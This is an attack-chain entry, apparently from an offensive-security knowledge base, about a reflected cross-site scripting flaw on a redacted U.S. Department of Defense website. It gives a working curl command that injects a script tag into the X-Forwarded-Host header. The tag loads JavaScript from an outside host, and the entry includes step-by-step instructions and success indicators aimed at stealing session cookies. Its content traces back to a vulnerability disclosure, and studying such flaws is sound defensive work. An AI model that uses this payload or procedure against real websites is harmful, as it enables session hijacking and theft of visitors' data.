

---
tags:
  - xss
  - reflected-xss
  - header-injection
  - dod
  - javascript-injection
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Malicious-Payload-into-X-Forwarded-Host-Header]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:46:38.214Z'
description: >-
  A multi-stage attack chain exploiting a reflected XSS vulnerability in the DoD
  website by injecting JavaScript via the X-Forwarded-Host header, leading to
  arbitrary code execution in victims' browsers.
skill_level: intermediate
impact_level: high
id: c3d8e4d0-2032-4b23-89d2-935288d9b312
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS via X-Forwarded-Host Header on U.S. Department of Defense Website

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected cross-site scripting (XSS) vulnerability in the U.S. Department of Defense website. The server unsafely reflects the X-Forwarded-Host header in responses, allowing attackers to inject and execute arbitrary JavaScript in victims' browsers. This can lead to session hijacking, data theft, phishing, or page manipulation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- Access to the target endpoint: https://█████/████████/
- Ability to craft and send HTTP requests with custom headers

### Initial Access Requirements

- No credentials required
- Direct network access to the public-facing DoD website
- No prior access needed; exploitable via reflected payload in responses

## Detailed Attack Procedures

### Step 1: Craft and Send Malicious Request
procedure: [[procedures/Inject-Malicious-Payload-into-X-Forwarded-Host-Header]]

**Objective**: Inject a JavaScript payload into the X-Forwarded-Host header to trigger reflected XSS upon response reflection.

**Instructions**: Use [[commands/curl-send-xss-payload]] to send an HTTP request to the target endpoint with the crafted header:

```bash
curl -H "X-Forwarded-Host: foo\"><script src=//dtf.pw/2.js></script><x=\".com" https://█████/████████/
```

**Expected Output**: The server responds with the unsanitized header value reflected in the HTML, embedding the script tag.

**Success Indicators**:
- Payload appears in the response body without escaping
- No server-side errors blocking the request

### Step 2: Observe and Verify JavaScript Execution
procedure: [[procedures/Inject-Malicious-Payload-into-X-Forwarded-Host-Header]]

**Objective**: Confirm the execution of the injected JavaScript in the victim's browser context, demonstrating potential for data theft or manipulation.

**Instructions**: Load the response in a browser or use a proxy to inspect. The reflected payload should execute, triggering the external script from //dtf.pw/2.js, which may display an alert with cookie data like '██████████_██████████='.

**Expected Output**: JavaScript alert box or console output showing stolen data, such as session cookies.

**Success Indicators**:
- Arbitrary JavaScript executes in the browser
- Sensitive data (e.g., cookies) is accessible or exfiltrated

## Attack Chain Summary

### Key Achievements

1. Successful injection of JavaScript via a HTTP header, bypassing typical input sanitization.
2. Execution of remote scripts in the context of the DoD website, enabling session theft.
3. Demonstration of high-impact risks like phishing or credential harvesting on a government site.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
